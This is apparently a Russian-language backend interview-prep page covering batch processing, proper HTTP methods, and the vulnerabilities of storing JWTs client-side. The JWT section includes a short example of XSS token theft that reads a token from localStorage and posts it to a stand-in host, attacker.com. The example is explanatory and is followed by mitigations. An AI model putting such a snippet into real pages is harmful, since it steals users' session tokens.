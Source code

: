 **Решение:**
- 🔹 Разбивать на части (batch processing)
- 🔹 Делать фоновые процессы (Celery, background tasks)
- 🔹 Обрабатывать ошибки поэлементно
- 🔹 Использовать транзакции для атомарности

---

### 3️⃣ Почему важно использовать правильные HTTP-методы (GET, POST, PUT, DELETE), а не только POST?

#### **Если всё делать через POST:**
- ❌ **Нельзя кешировать** — браузеры и прокси не кешируют POST-запросы
- ❌ **Непонятно другим разработчикам** — какое действие выполняется?
- ❌ **Проблемы с браузерами, прокси и безопасностью** — нарушается REST-архитектура
- ❌ **Потеря идемпотентности** — повторный POST может создать дубликаты

#### **Правильное использование:**
```
GET    → Получение данных (безопасный, кешируемый, идемпотентный)
POST   → Создание новой записи (не идемпотентный)
PUT    → Полное обновление существующей записи (идемпотентный)
PATCH  → Частичное обновление записи (идемпотентный)
DELETE → Удаление записи (идемпотентный)
```

---

### 4️⃣ Какие уязвимости могут возникнуть при хранении JWT на клиентской стороне?

#### **1. XSS (Cross-Site Scripting) атака**
Если токен лежит в `localStorage` или `sessionStorage`, злоумышленник может вставить JavaScript-код на страницу и украсть токен:
```javascript
// Вредоносный код может просто прочитать токен
const token = localStorage.getItem('access_token');
// Отправить его на сервер злоумышленника
fetch('https://attacker.com/steal', { method: 'POST', body: token });
```

#### **2. CSRF (Cross-Site Request Forgery) атака**
Если JWT хранится в cookie без защиты, браузер автоматически отправит его, даже если запрос сделан с чужого сайта.

#### **3. Невозможность отозвать токен**
Нельзя удалить уже выданный токен, если нет специального механизма "чёрного списка" (blacklist).

**Решение:**
- 🔒 Хранить в HttpOnly cookies (защита от XSS)
- 🔒 Использовать CSRF-токены
- 🔒 Короткое время жизни + refresh token
- 🔒 Blacklist для отозванных токенов

---